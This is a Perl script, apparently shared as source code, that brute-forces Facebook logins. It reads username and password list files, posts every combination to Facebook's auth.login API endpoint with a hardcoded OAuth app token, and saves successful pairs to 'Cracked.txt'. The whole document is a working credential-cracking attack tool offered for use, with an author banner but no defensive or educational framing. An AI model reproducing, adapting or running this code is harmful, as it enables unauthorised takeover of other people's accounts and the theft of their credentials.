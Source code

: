 ##########################################system('cls');print qq(#################################  [Facebook API] BF FB API    ##################################     Coded By Server X        ##################################                              ##   Instagram : Soufiane Eh    ##                              ##    Facebook : Soufiane Eh    ##                              #################################Enter [CTRL+C] For Exit :0\n);print qq(Enter Usernames File :> );$usernames=<STDIN>;chomp($usernames);open (USERFILE, "<$usernames") || die "[-] Can't Found ($usernames) !";@USERS = <USERFILE>;close USERFILE;
print qq(Enter Passwords File :> );$passwords=<STDIN>;chomp($passwords);open (PASSFILE, "<$passwords") || die "[-] Can't Found ($passwords) !";@PASSS = <PASSFILE>;close PASSFILE;system('cls');print "Username List: ($usernames)\nPasswords: ($passwords)\n--------\nCracking Now !..\n";######################foreach $username (@USERS) {chomp $username; foreach $password (@PASSS) { chomp $password;  #############################################  $facebook = LWP::UserAgent->new();  $facebook->default_header('Authorization' => "OAuth 200424423651082|2a9918c6bcd75b94cefcbb5635c6ad16");  $response = $facebook->post('https://b-api.facebook.com/method/auth.login',   {    format => 'json',   email => $username,   password => $password,   credentials_type => 'password'   }   );  if ($response->content=~ /"session_key"/) {   print "\t   ----------------------------------   | Cracked :($username:$password) |\n   ----------------------------------\n   ";   open(R0T,">>Cracked.txt");   print R0T "($username:$password)\n";   close(R0T);   sleep(3);  }  else {   #Invalid username or password (401)   if ($response->content=~ /Invalid username or password/) {    print "Failed :($username:$password)\n";   }   else   {    #Invalid username or email address (400)    if ($response->content=~ /Invalid username or email address/) {     print "NotFound :($username)\n";    }    else    {     print "Error\n";    }   }  } }}
